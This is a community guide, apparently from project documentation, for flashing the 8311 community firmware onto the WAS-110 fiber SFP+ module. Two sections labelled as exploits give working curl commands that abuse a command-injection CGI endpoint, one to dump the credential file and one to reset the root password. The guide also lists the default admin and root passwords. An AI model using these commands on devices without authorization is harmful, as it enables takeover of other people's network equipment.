



# Install 8311 community firmware on the BFW Solutions WAS-110

{ class="nolightbox" }
<!-- more -->
<!-- nocont -->

!!! note "Password changes"
    As of firmware version __1.0.21__, the WAS-110 web UI and SSH default passwords have changed.

Out of the box, the WAS-110 is not fully compatible with varying ISP OLT configurations, with issues ranging from 
vendor-specific managed entities to VEIP to IEEE standards such as [802.1X] and [802.1ad]. Due to these 
incompatibilities and discovered bugs, a community firmware[^1] has been curated to fix any impeding issues[^2]. 

  [802.1X]: https://en.wikipedia.org/wiki/IEEE_802.1X
  [802.1ad]: https://en.wikipedia.org/wiki/IEEE_802.1ad

## Host setup

Plug the WAS-110 into a 10-gigabit compatible SFP+ host interface, such as a NIC, media converter, and/or network
switch.

### Download firmware

The community firmware comes in two (2) variants: *basic* and *bfw*; for the purposes of this guide, we'll focus on
the recommended <ins>basic</ins> firmware, which can be downloaded at:

<https://github.com/djGrrr/8311-was-110-firmware-builder/releases/latest>

The <ins>basic</ins> firmware comprises of a vanilla MaxLinear [OpenWrt] 19.07 fork,
integrated with the aforementioned fixes and a customized luci web interfaces for hassle-free masquerading. It also
does without the abysmal BFW additions and abstractions, as well as the backdoors.

  [OpenWrt]: https://openwrt.org/

### Extract download

The firmware files are archived by [7-Zip] and can be extracted with:

  [7-Zip]: https://www.7-zip.org/

=== ":fontawesome-brands-windows: Windows"

    ``` sh
    7z x WAS-110_8311_firmware_mod_<version>_basic.7z
    ```

=== ":material-apple: macOS"

    !!! note "The following commands assume [Homebrew](https://brew.sh) is installed"

    ``` sh
    brew install sevenzip
    7zz x WAS-110_8311_firmware_mod_<version>_basic.7z
    ```

=== ":material-linux: Linux"

    !!! note "The following commands assume a Debian-based distribution"

    ``` sh
    sudo apt-get install 7zip-full
    7z x WAS-110_8311_firmware_mod_<version>_basic.7z #(1)!
    ```

    1. Replace `<version>` with the downloaded version.

### Set a static IP

The default IP address of the WAS-110 is `192.168.11.1`. To connect successfully, a static IP address must be assigned
to the host interface on the same `192.168.11.0/24` subnet. (1)
{ .annotate }

1.  E.g. `192.168.11.2` which is the default ping IP address.

=== ":fontawesome-brands-windows: Windows"

    !!! tip "Run Command Prompt as Administrator"

        1. Press <kbd>Win</kbd> + <kbd>R</kbd>
        2. In the Run dialog box, type `cmd` into the input field and then press
           <kbd>Ctrl</kbd> + <kbd>Shift</kbd> + <kbd>Enter</kbd>. 

    ``` sh hl_lines="2"
    netsh interface ip show config
    netsh interface ipv4 set address name="<interface name>" static 192.168.11.2 255.255.255.0 192.168.11.1
    netsh interface ipv4 set interface "<interface name>" mtu=1500
    ```

    ??? info "For the shameless mouse clickers..."
        If you are more comfortable with the Windows GUI, follow the <ins>manual</ins> steps outlined by Microsoft at:

        <https://support.microsoft.com/en-us/windows/change-tcp-ip-settings-bd0a07af-15f5-cd6a-363f-ca2b6f391ace>

=== ":material-apple: macOS"

    ``` sh hl_lines="2"
    sudo networksetup -listallnetworkservices
    sudo networksetup -setmanual <service> 192.168.11.2 255.255.255.0 192.168.11.1
    ```

=== ":material-linux: Linux"

    !!! note "The following commands must be run as root `su -` or prepended with `sudo`"

    ``` sh hl_lines="6"
    ip link show
    ethtool <interface>
    ip address show
    ip address flush dev <interface>
    ip route flush dev <interface>
    ip address add 192.168.11.2/24 dev <interface>
    ip address show dev <interface>
    ```

## Web UI upgrade <small>recommended</small> { #web-ui-upgrade data-toc-label="Web UI upgrade" }

### Web credentials

The default web credentials can be found in `/ptrom/ptconf/param_ct.xml`. Modifications from the web UI are stored in
`/ptrom/ptconf/usrconfig_conf` as base64 encoded strings.

!!! warning
    Passwords have a maximum length of 16 characters which are not restricted by the web UI.

??? bug "Exploit to disclose the default web credentials"
    
    To dump the web credentials from `/ptrom/ptconf/param_ct.xml`, navigate to:

    <http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml>

    Alternatively, run the following command to download `param_ct.xml` to a temporary directory.

    === ":fontawesome-brands-windows: Windows"

        ``` sh
        dir %Temp% && curl -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

    === ":material-apple: macOS"

        !!! note "The following commands assume [Homebrew](https://brew.sh) is installed"

        ``` sh
        brew install curl
        cd /tmp && curl -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

    === ":material-linux: Linux"

        !!! note "The following commands assume a Debian-based distribution, such as [Ubuntu](https://ubuntu.com/)"

        ``` sh
        sudo apt-get install curl
        cd /tmp && curl -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

=== "&lt;= v1.0.20"

    | Username | Password       |
    | -------- | -------------- |
    | admin    | QsCg@7249#5281 |
    | user     | user1234       |

=== "v1.0.21"

    | Username | Password       |
    | -------- | -------------- |
    | admin    | BR#22729%635e9 |
    | user     | user1234       |

### Firmware upgrade

!!! danger "Proceed with caution!"
    The WAS-110 firmware upgrade utility on occasion has been known to soft-brick itself. To recover, a host device 
    with serial breakout on SFP pins 2 (rx) and 7 (tx) will be required.




1. Within a web browser, navigate to 
   <https://192.168.11.1/html/main.html#admin/upgrade>
   and, if asked, input the <em>admin</em> credentials. 



2. At the __Firmware Upgrade__ page, browse for `local-upgrade.img` from the extracted download, and click 
   __Upgrade__.

Patiently wait out the process, 4 to 5 minutes, or until the web session becomes unresponsive.

??? tip "Run a continuous ping"
    To recieve an early indication that the WAS-110 has completed its upgrade reboot cycle, run a continuous ping:

    === ":fontawesome-brands-windows: Windows"

        ``` sh
        ping -t 192.168.11.1
        ```

    === ":material-apple: macOS / :material-linux: Linux"

        ``` sh
        ping 192.168.11.1
        ```

Once rebooted, begin to enjoy the fruits of the 8311 community. It is not at all possible without the help and support
of every one of us.

## Shell upgrade <small>safer</small> { #shell-upgrade data-toc-label="Shell upgrade" }

### Shell credentials

=== "&lt;= v1.0.20"

    | Username | Password       |
    | -------- | -------------- |
    | root     | QpZm@4246#5753 |

=== "v1.0.21"

    | Username | Password       |
    | -------- | -------------- |
    | root     | M533%27#32n682 |


???+ bug "Exploit to temporarily change the root password"
    Run the following command to temporarily change the root password to `root`.

    === ":fontawesome-brands-windows: Windows"

        ``` sh
        curl -s -o null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
        ```

    === ":material-apple: macOS"

        !!! note "The following commands assume [Homebrew](https://brew.sh) is installed"

        ``` sh
        brew install curl
        curl -s -o /dev/null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
        ```

    === ":material-linux: Linux"

        !!! note "The following commands assume a Debian-based distribution, such as [Ubuntu](https://ubuntu.com/)"

        ``` sh
        sudo apt-get install curl
        curl -s -o /dev/null "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?%7B%20echo%20root%20%3B%20sleep%201%3B%20echo%20root%3B%20%7D%20%7C%20passwd%20root"
        ```

### Local upgrade

The extracted `local-upgrade.tar` includes a <ins>safer</ins> upgrade script in comparison to the built-in web UI.

<h4>Enable SSH</h4>

SSH must be enabled from the web UI prior to running the shell commands.


1. Within a web browser, navigate to 
   <https://192.168.11.1/html/main.html#service/servicecontrol>
   and, if asked, input the <em>admin</em> credentials. 



2. From the __Service Control__ page, check the __SSH__ checkbox and click __Save__.

<h4>Upgrade firmware</h4>

Run the following commands from the host terminal to upgrade to the 8311 community firmware.

=== ":fontawesome-brands-windows: Windows"

    ``` sh
    scp -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa local-upgrade.tar root@192.168.11.1:/tmp/
    ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa root@192.168.11.1 'tar xvf /tmp/local-upgrade.tar -C /tmp/ -- upgrade.sh && /tmp/upgrade.sh /tmp/local-upgrade.tar'
    ```

=== ":material-apple: macOS / :material-linux: Linux"

    ``` sh
    scp -O -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa local-upgrade.tar root@192.168.11.1:/tmp/
    ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa root@192.168.11.1 'tar xvf /tmp/local-upgrade.tar -C /tmp/ -- upgrade.sh && /tmp/upgrade.sh /tmp/local-upgrade.tar'
    ```

Once rebooted, begin to enjoy the fruits of the 8311 community. It is not at all possible without the help and support
of every one of us.

[^1]: <https://github.com/djGrrr/8311-was-110-firmware-builder>
[^2]: <https://github.com/djGrrr/8311-xgspon-bypass>

      <https://github.com/djGrrr/8311-was-110-firmware-builder/blob/master/mods/>
